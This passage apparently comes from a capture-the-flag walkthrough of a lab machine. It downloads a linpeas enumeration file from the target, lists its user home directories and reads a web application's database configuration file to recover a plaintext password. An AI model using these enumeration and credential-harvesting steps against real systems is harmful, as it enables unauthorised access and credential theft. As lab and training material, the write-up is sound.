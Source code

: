 ```sh
$wget http://10.10.10.171/ona/linpeas.out
--2020-03-18 14:15:57--  http://10.10.10.171/ona/linpeas.out
Connecting to 10.10.10.171:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 191908 (187K)
Saving to: ‘linpeas.out’

linpeas.out                              100%[================================================================>] 187.41K   320KB/s    in 0.6s

2020-03-18 14:15:58 (320 KB/s) - ‘linpeas.out’ saved [191908/191908]
```

Before reading the `linpeas.out` let's check the `/home/` directory.

```sh
$ ls -al /home/
total 16
drwxr-xr-x  4 root   root   4096 Nov 22 18:00 .
drwxr-xr-x 24 root   root   4096 Nov 21 13:41 ..
drwxr-x---  5 jimmy  jimmy  4096 Nov 22 23:15 jimmy
drwxr-x---  6 joanna joanna 4096 Nov 28 09:37 joanna
```

Ok so we know which users available. Let's study the `linpeas.out` file now. Looking carefully at the result, we find a password:

```sh
$less -r linpeas.out

[...]
/var/www/ona/local/config/database_settings.inc.php:        'db_passwd' => 'n1nj4W4rri0R!',
[...]
```

Great, let's look at the database php file to on the host to get the rest.

```php
$ cat /var/www/ona/local/config/database_settings.inc.php
<?php

$ona_contexts=array (
  'DEFAULT' =>
  array (
    'databases' =>
    array (
      0 =>
      array (
        'db_type' => 'mysqli',
        'db_host' => 'localhost',
        'db_login' => 'ona_sys',
        'db_passwd' => 'n1nj4W4rri0R!',
        'db_database' => 'ona_default',
        'db_debug' => false,
      ),
    ),
    'description' => 'Default data context',
    'context_color' => '#D3DBFF',
  ),
);
```
